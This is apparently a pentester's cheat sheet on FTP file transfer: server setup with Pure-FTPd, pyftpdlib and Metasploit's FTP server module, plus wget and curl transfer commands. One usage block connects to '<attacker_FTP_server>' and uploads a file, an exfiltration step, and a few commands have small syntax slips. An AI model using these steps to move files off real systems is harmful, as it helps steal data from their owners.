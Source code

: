 # FTP

## 01 - Unix Shell

### 1.1 - Setup

#### 1.1.1 - Pure-FTPd

`$ sudo apt install pure-ftpd`

`$ cat setup-pure-ftpd.sh`

---

```sh
#!/bin/sh
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd <username> -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

```
$ chmod +x setup-pure-ftpd.sh

$ sudo ./setup-pure-ftpd.sh
```

#### 1.1.2 - PyFTPdlib

`$ sudo apt install python-pyftpdlib`

`$ python3 -m pyftpdlib -p <PORT>`

### 1.2 - Usage

#### 1.2.1 - Download

```
$ ftp <attacker_FTP_server>

ftp> put file.txt

$ wget -m ftp://<username>@<password>@<IP>

$ wget -m --no-passive ftp://<username>@<password>@<IP>

$ curl -u <username>:<password> ftp://<IP>/file.txt
```

#### 1.2.2 - Upload

`$ curl -u <username>:<password> -T /path/to/file.txt ftp://<IP>`

## 02 - Metasploit

```
msf > use auxiliary/server/ftp

msf auxiliary(server/ftp) > options

Module options (auxiliary/server/ftp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FTPPASS                    no        Configure a specific password that should be allowed access
   FTPROOT   /tmp/ftproot     yes       The FTP root directory to serve files from
   FTPUSER                    no        Configure a specific username that should be allowed access
   PASVPORT  0                no        The local PASV data port to listen on (0 is random)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   21               yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Serve files via FTP


msf auxiliary(server/ftp) > set ftproot /path/to/host/files

msf auxiliary(server/ftp) > set ftpuser <username>

msf auxiliary(server/ftp) > set ftppass <password>

msf auxiliary(server/ftp) > run
```

## References

- [Hacktricks Pentesting FTP Bounce Attack](https://book.hacktricks.xyz/pentesting/pentesting-ftp/ftp-bounce-attack)

- [Hacktricks Pentesting FTP Download 2OFTP File]https://book.hacktricks.xyz/pentesting/pentesting-ftp/ftp-bounce-download-2oftp-file

- [How to Use FTP Under Linux to Transfer Files](https://www.thegeekdiary.com/how-to-use-ftp-under-linux-to-transfer-files/)